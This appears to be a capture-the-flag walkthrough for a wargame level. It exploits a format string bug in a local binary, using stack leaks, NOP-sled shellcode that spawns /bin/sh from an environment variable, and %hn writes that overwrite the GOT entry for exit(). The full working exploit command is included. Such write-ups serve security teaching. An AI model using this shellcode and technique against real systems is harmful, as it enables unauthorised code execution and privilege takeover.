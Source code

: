 
# Level05 - Exploiting Format String Vulnerability to Execute Shellcode

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level05
coucou
coucou
```

The program prompts for input twice.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program uses `fgets()` to read input into a buffer of 100 characters, converts the input to lowercase, and finally calls `printf()` with the buffer as an argument:

```assembly
0x08048500 <+188>: lea    eax,[esp+0x28]   ; buffer
0x08048504 <+192>: mov    DWORD PTR [esp],eax
0x08048507 <+195>: call   0x8048340 <printf@plt>
```

This setup introduces a format string vulnerability.

## Step 3: Exploiting the Format String

Test the vulnerability by printing stack values:

```bash
$ python -c 'print "BBBB" + "-%x" * 12' | ./level05
bbbb-64-f7fcfac0-f7ec3af9-ffffd5ff-ffffd5fe-0-ffffffff-ffffd684-f7fdb000-62626262-2d78252d-252d7825
```

Our input appears at the 10th position on the stack.

## Step 4: Injecting Shellcode

To exploit this, store shellcode in an environment variable and inject it at the 10th position using the format string.

### Shellcode

Use the following shellcode:

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

### Find the Address of the Payload

Store the shellcode in an environment variable:

```bash
$ env -i PAYLOAD=$(python -c 'print "\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') gdb level05
(gdb) x/200s environ
```

### Locate the Environment Variable Address

Identify the address of the nopesled to jump to, e.g., `0xffffdc59`.

## Step 5: Overwriting the GOT Entry

We need to overwrite a GOT entry. Since the program ends with `exit()`, we can overwrite it:

```assembly
0x0804850c <+200>: mov    DWORD PTR [esp],0x0
0x08048513 <+207>: call   0x8048370 <exit@plt>
```

The GOT address of `exit` is `0x80497e0`.

### Building the Exploit

Split the address `0xffffdc59` into two writes for the GOT:

1. First part: `dc59` (56409 - 8 bytes for addresses).
2. Second part: `ffff` (65535 - remaining characters).

Construct the payload:

```bash
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn"'
```

## Step 6: Running the Exploit

Run the exploit with the environment variable:

```bash
$ (python3 -c 'print((b"\xe0\x97\x04\x08" + b"\xe2\x97\x04\x08" + b"%56401d" + b"%10$hn" + b"%9126d" + b"%11$hn").decode("latin-1")); cat') | env -i PAYLOAD=$(python3 -c 'print((b"\x90"*1000 + b"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh").decode("latin-1"))') ./level05

whoami
level06
```

## Summary

- The program has a format string vulnerability that allows arbitrary memory writes.
- By injecting shellcode into an environment variable and using the format string, we can hijack execution.
- Overwriting the GOT entry for `exit` with the shellcode address enables us to execute arbitrary code.

This demonstrates how format string vulnerabilities can lead to full code execution if properly exploited.
